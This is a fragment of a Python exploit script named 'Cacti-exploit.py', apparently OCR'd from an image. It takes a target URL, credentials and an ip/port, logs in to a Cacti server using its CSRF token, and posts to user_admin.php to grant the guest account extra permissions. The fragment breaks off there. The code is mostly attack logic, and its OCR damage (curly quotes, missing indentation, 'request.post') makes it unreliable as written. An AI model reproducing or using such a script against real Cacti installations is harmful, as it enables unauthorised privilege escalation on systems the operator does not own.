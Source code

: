 ```
if len(sys.argv) != 6:

print("[~] Usage : ./Cacti-exploit.py url username password ip port")

exit()

url = sys.argv[1]

username = sys.argv[2]

password = sys.argv[3]

ip = sys.argv[4]

port = sys.argv[5]

def login(token):

login_info = {

“login_username”: username,

“login_password”: password,

“action”: “login”,

“__csrf_magic”: token

}

login_request = request.post(url+"/index.php", login_info)

login_text = login_request.text

if “Invalid User Name/Password Please Retype” in login_text:

return False

else:

return True

def enable_guest(token):

request_info = {

“id”: “3”,

“section25”: “on”,

“section7”: “on”,

“tab”: “realms”,

“save_component_realm_perms”: 1,

“action”: “save”,

“__csrf_magic”: token

}

enable_request = request.post(url+"/user_admin.php?header=false", request_info)
```